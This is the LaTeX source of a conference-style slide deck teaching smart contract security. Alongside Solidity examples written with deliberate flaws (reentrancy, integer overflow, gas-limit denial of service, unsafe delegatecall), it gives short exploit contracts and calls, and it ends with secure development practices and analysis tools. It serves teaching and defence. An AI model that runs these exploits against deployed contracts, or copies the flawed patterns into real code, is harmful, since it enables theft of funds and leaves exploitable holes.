\documentclass{beamer}
\usepackage{amsfonts,amsmath,oldgerm}
\usetheme{sintef}
\usepackage{xeCJK}

\newcommand{\testcolor}[1]{\colorbox{#1}{\textcolor{#1}{test}}~\texttt{#1}}

\usefonttheme[onlymath]{serif}

\titlebackground*{assets/full}

\newcommand{\hrefcol}[2]{\textcolor{cyan}{\href{#1}{#2}}}

\title{Exploiting Smart Contract Vulnerabilities}
\author{Nikola Todorovic}
\date{9.9.2023.}

\begin{document}
\maketitle

\begin{frame}{About me}
\begin{itemize}
    \item Lead blockchain engineer at OriginTrail
        \begin{itemize}
            \item Decentralized Knowledge Graph
            \item OriginTrail Parachain
        \end{itemize}
    \item Coach of Serbian national cybersecurity team for ECSC
    \item Member of Cybersecurity Network Foundation (\href{https://cyberhero.rs/}{CyberHero})
        \begin{itemize}
            \item Serbian Cybersecurity Challenge
        \end{itemize}
    \item You maybe know me from: LiBRE!, DESCON, PSSOH, HKLBGD...
    \item Twitter: \href{https://twitter.com/NZT_1A}{@NZT\_1A}
    \item Github: \href{https://github.com/NZT48}{NZT48}
\end{itemize}
\end{frame}

\section{Introduction}

\begin{frame}{Smart contracts}
\begin{itemize}
\item "A smart contract is a computerized transaction protocol that executes the terms of a contract." - Nick Szabo (1994)
\item Blockchain - a distributed ledger with growing lists of records (blocks) that are securely linked together via cryptographic hashes.
\item Smart contract - program stored on a blockchain that run when predetermined conditions are met.
\item Characteristics:
    \begin{itemize}
        \item Automatic execution
        \item Unstoppable
        \item Immutable
        \item Secure
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{Ethereum \& EVM}
\begin{itemize}
    \item Ethereum
    \begin{itemize}
        \item Ether
        \item 44 millions smart contracts
    \end{itemize}
    \item Ethereum Virtual Machine (EVM)
    \begin{itemize}
        \item quasi–Turing-complete state machine
    \end{itemize}
    \item Programming languages
    \begin{itemize}
        \item Solidity
        \item Vyper
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile]{Code example}
\begin{verbatim}
pragma solidity ^0.8.10;

contract SimpleStorage {
    uint storedData;

    function setData(uint x) public {
        storedData = x;
    }

    function getData() public view returns (uint) {
        return storedData;
    }
}
\end{verbatim}
\end{frame}

\begin{frame}{Creation and execution of smart contracts}
    
\includegraphics[width=\paperwidth,height=\textheight]{assets/cycle}
\end{frame}

\begin{frame}{State machine}
    
\includegraphics[scale=0.9]{assets/states}
\end{frame}

\section{Vulnerabilities}

\begin{frame}{Vulnerabilities in smart contracts}
\begin{itemize}
    \item Most smart contracts deal with financial assets
    \item Approximately \$300 billion stored in smart contracts
    \item In 2021. stolen  \$1.3 billion, and in 2022 \$ 3.8 billions stolen
    \item We group the vulnerabilities into three classes, according to the level
where they are introduced:
    \begin{itemize}
        \item Solidity
        \item EVM
        \item Blockchain
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{OWASP Top 10}
\begin{enumerate}
    \item Reentrancy
    \item Integer Overflow and Underflow
    \item Timestamp Dependence
    \item Access Control Vulnerabilities
    \item Front-running Attacks
    \item Denial of Service (DoS) Attacks
    \item Logic Errors
    \item Insecure Randomness
    \item Gas Limit Vulnerabilities
    \item Unchecked External Calls
\end{enumerate}
\end{frame}

\section{Exploitation}

\begin{frame}[fragile]{Code vulnerable to reentrancy}
\begin{itemize}
    \item A reentrancy attack happens when a function is externally invoked during its execution, allowing it to be run multiple times in a single transaction.
\end{itemize}
    \begin{verbatim}
    contract Reentrancy {
        mapping(address => uint) public balance;
 
        function deposit() public payable {
            balance[msg.sender] += msg.value;
        }
 
        function withdraw() public payable {
            require(balance[msg.sender] >= msg.value);
            payable(msg.sender).transfer(msg.value);
            balance[msg.sender] -= msg.value;
        }
    }
    \end{verbatim}
\end{frame}

\begin{frame}[fragile]{Fallback functions}
\begin{itemize}
    \item Fallback is a special function that is executed either when:
    \begin{itemize}
        \item a function that does not exist is called or
        \item Ether is sent directly to a contract but receive() does not exist or msg.data is not empty
    \end{itemize}
\end{itemize}
    \begin{verbatim}
    fallback() external payable {
        emit Log("fallback");
    }

    receive() external payable {
        emit Log("receive");
    }
    \end{verbatim}
\end{frame}

\begin{frame}{Reentrancy illustration}

\includegraphics[width=\textwidth]
{assets/reentrancy}
\end{frame}

\begin{frame}[fragile]{Integer Overflow and Underflow}
\begin{verbatim}
uint8 num_of_loans = 255;
num_of_loans += 1;
\end{verbatim}
\begin{itemize}
    \item Only in Solidity < 0.8
    \item Use to:
    \begin{itemize}
        \item Minting an excessive amount of tokens
        \item Bypass time locker
    \end{itemize}
    \item Leads to hyperinflation of token
\end{itemize}
\end{frame}

\begin{frame}[fragile]{Overflow in practice - batchTransfer}
    \begin{verbatim}
function batchTransfer(address[] memory _receivers, uint256 _value) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender] - amount;

    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]] + _value;
        transfer(msg.sender, _receivers[i], _value);
    }
}
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{Exploiting integer overflow in batchTransfer}
\begin{verbatim}
address[] memory receivers = new address[](2);
receivers[0] = 0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db;
receivers[1] = 0x78731D3Ca6b7E34aC0F824c42a7cC18A495cabaB;
uint256 amount = (type(uint).max)/2 + 1;

bool success = TokenAddress.batchTransfer(receivers, amount);
\end{verbatim}
\end{frame}

\begin{frame}{Denial of Service}
\begin{itemize}
    \item Smart contracts can be taken offline forever
    \item Other vulnerabilities can lead to denial of service:
    \begin{itemize}
        \item Abusing access control
        \item Gas limit vulnerabilities
        \item Logic errors
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{Abusing access control}

\includegraphics[width=\textwidth]
{assets/wallet-deletion}
\end{frame}

\begin{frame}[fragile]{DoS with Block Gas Limit}
\begin{verbatim}
address[] private refundAddresses;
mapping (address => uint) public refunds;

function refundAll() public {
    for(uint x; x < refundAddresses.length; x++) {
        require(refundAddresses[x].send(refunds[refundAddresses[x]]));
    }
}
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{King of Ether}
\begin{verbatim}
    address public king;
    uint public balance;
    
    function claimThrone() external payable {
        require(msg.value > balance, 
            "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{Bypassing check is smart contract}
\begin{verbatim}
    function isContract(address account) public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{Exploit king of ether}
\begin{verbatim}
contract Exploit {
    KingOfEtherInterface kingOfEtherAddress;

    constructor(KingOfEtherInterface _kingOfEther) payable {
        kingOfEtherAddress = KingOfEtherInterface(_kingOfEther);
        kingOfEtherAddress.claimThrone{value: msg.value}();
    }
}
\end{verbatim}
\end{frame}

\begin{frame}{Wrong usage of delegatecall}
\begin{itemize}
    \item Delegatecall preserves context (storage, caller, etc...)
    \item Storage layout must be the same for the contract calling delegatecall and the contract getting called
\end{itemize}

\includegraphics[width=\textwidth]{assets/delegatecall}
\end{frame}

\begin{frame}[fragile]{Library}
\begin{verbatim}
contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{Code with vulnerable delegatecall}
\begin{verbatim}
contract VulnerableSC {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }
    function doSomething(uint _num) public {
        lib.delegatecall(
            abi.encodeWithSignature("doSomething(uint256)", _num)
        );
    }
}
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{Exploit delegatecall}
\begin{verbatim}
contract Exploit {
    address public lib;
    address public owner;
    uint public someNumber;

    function attack() public {
        // override address of lib
        hackMe.doSomething(uint(uint160(address(this))));
        hackMe.doSomething(1);
    }
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}

\end{verbatim}
\end{frame}

\begin{frame}[<+->]{Rest of OWASP Top 10}
    \begin{itemize}
        \item Unchecked external calls
        \item Front-running attacks
        \item Insecure randomness
        \item Timestamp dependence
    \end{itemize}
\end{frame}

\section{Secure smart contract development}

\begin{frame}{Good development practices}
\begin{itemize}
    \item Use Checks-Effects-Interactions pattern
    \item Use pull over push pattern
    \item Implement circuit breakers
    \item Use formal verification
    \item Use well known libraries like the ones from OpenZeppelin
    \item Limit the maximum number of Eth that contract can accept (if possible)
    \item Don't forget that all data is public on blockchain
    \item Do not use kill and selfdestruct
\end{itemize}
\end{frame}

\begin{frame}{Smart contract security tools}
\begin{itemize}
    \item Slither - Static Analyzer for Solidity
    \item Mythril - Security analysis tool for EVM bytecode
    \item Manticore - Symbolic execution tool
    \item Oyente - An Analysis Tool for Smart Contracts
    \item Echidna - Ethereum smart contract fuzzer
\end{itemize}
\end{frame}

\section{Final}

\begin{frame}{Useful links}
\begin{itemize}
    \item \href{https://solidity-by-example.org/}{Solidity by Example}
    \item \href{https://consensys.github.io/smart-contract-best-practices/}{Consensys - smart contracts best practices}
    \item \href{https://dasp.co/}{Decentralized Application Security Project}
    \item Play:
    \begin{itemize}
        \item \href{https://ethernaut.openzeppelin.com/}{Etherenaut}
        \item \href{https://secureum.substack.com/}{Secureum}
        \item \href{https://www.damnvulnerabledefi.xyz/}{Damn Vulnerable DeFi}
        \item \href{https://capturetheether.com/}{Capture the Ether}
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{Thank you for listening}
\begin{itemize}
    \item Any questions?
    \item Twitter: @NZT\_1A
    \item Github: NZT48
\end{itemize}
\centering

\includegraphics[scale=0.15]{assets/qr}
\end{frame}

\end{document}
